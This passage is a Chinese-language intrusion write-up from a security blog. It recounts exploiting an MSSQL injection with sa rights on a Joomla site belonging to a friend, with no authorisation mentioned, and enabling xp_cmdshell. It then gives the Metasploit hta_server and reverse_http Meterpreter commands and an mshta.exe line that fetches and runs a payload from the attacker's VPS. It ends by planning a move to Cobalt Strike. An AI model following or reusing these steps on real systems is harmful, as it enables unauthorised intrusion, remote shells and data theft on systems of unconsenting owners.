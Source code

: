 #  SQL注入漏洞引起的内网渗透 | 实战   
 渗透安全团队   2024-02-26 22:06  
  
**一 、 前言**  
  
近期一直再学习内网渗透，实验什么的都是玩玩靶机。  
  
  
这一天朋友说有个站点有漏洞，就发过来看了一些是一个SQL注入，继而开启了这次内网渗透。  
水平有限，并且初学哈哈哈哈！  
没有什么技术要点纯属误打误撞，如果有什么错误的地方希望大佬多多指点！  
  
**二 、 WEB点进入内网**  
  
这次渗透是从站库分离的情况下在深入进去内网在拿下域控服务器，也都是普通的渗透思路，并没有什么技术含量！  
  
首先WEB点是一个MSSQL注入漏洞，并且这个注入是sa权限的！  
  
首先这个站点是使用JoomlaCMS搭建的，但是在一处Study信息登记处发现了SQL注入漏洞   
  
接着抓下此处查询的数据包进行注入，并且或者了是高权限，可以开启xp_cmdshell来进行进一步的提权。  
  
在注入的返回的指纹信息可以获知对方的操作系统大概率就是windows Server 2012系统   
  
那么接下来不用想就是直接提权到MSF上面了，这里使用hta来提权到MSF  
  
msf5 > use exploit/windows/misc/hta_servermsf5 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_httppayload => windows/meterpreter/reverse_httpmsf5 exploit(windows/misc/hta_server) > set lhost VPS_IPlhost =>  VPS_IP  
  
这里就开始监听断开，然后需要在对方哪里执行命令。  
  
如下  
  
接着在执行 mshta.exe http://VPS_IP:8080/IAKWSlu.hta  
  
执行之后对方直接上线MSF了，这里可以看到对方的主机名称就叫DATABASE.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSGaecyv6D1HT5iaicV3icM593NOCm7G4MKjugpMwRXp73f6ibicHicibib7PHv6YKlzubPlOVDhRDnyooBv2g/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1&random=0.28349284713558687 "")  
  
看似一切顺利，但是往往都不会如自己想的那样，上线之后一直不能执行命令，都返回超时。在VPS的流量过去应该也不会有多大的阻碍啊！  
  
也许是被对方的一些设备拦截了吧！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSGaecyv6D1HT5iaicV3icM593NLeMjMyRsaDnBTLptZtMPcCSJvicmfHfaneClPtXKWdjlibYJMJbeTNuQ/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1&random=0.641839771970748 "")  
  
既然MSF不能操作的话，SQLMAP提供的shell也不是很好操作，那么可以试着写入webshell进入到对方主机上面。  
  
但是我查找了一番并无WEB路径，这里时候想起了它的主机名称，会不会是一个站库分离的网站。  
  
对于MSSQL注入查询是否站库分离很简单  
  
select @@servernameselect host_name()  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSGaecyv6D1HT5iaicV3icM593Ndn2fibyH014mhmRm8c4kBBH1Qmn6IWCdT2EwibRib0Ms1iawkdSjgnKHwA/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1&random=0.2298661274937157 "")  
  
果不其然这里的确就是站库分离。  
  
既然是MSF的流量比较明显，也不能写入webshell，那么我现在就希望能让其上线CobaltStrike吧！  
  